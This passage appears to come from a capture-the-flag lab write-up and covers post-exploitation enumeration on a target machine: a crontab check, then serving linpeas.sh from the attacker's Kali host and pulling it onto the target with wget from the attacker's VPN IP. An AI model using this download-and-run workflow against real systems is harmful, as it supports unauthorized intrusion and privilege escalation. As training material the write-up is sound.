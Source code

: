 
---

## 📅 Cron Job Check

```bash
cat /etc/crontab
```

- Checks for scheduled tasks.
    
- No suspicious or custom entries found.
    

---
>Open a new tab here `ctrl+shift+t`

### 📥Downloads `linpeas.sh` from local machine

```bash
https://github.com/peass-ng/PEASS-ng
```

## 🧠 LinPEAS Enumeration

### On Kali (Host)

```bash
python -m http.server
```

- Serves files via HTTP (port 8000 by default)
    
>Go back to the nathan tab and run this cmd

---
### On Target Machine

```bash
wget http://<Your VPN ip>:8000/linpeas.sh
```
![[Pasted image 20250415204818.png]]

--2025-04-15 08:28:50--  http://10.10.14.130:8000/linpeas.sh
Connecting to 10.10.14.130:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840085 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh            [===================100%===============================================================================================>] 820.40K   245KB/s    in 3.3s    

2025-04-15 08:28:54 (245 KB/s) - `linpeas.sh` saved  840085/840085

```bash
chmod +x linpeas.sh
```
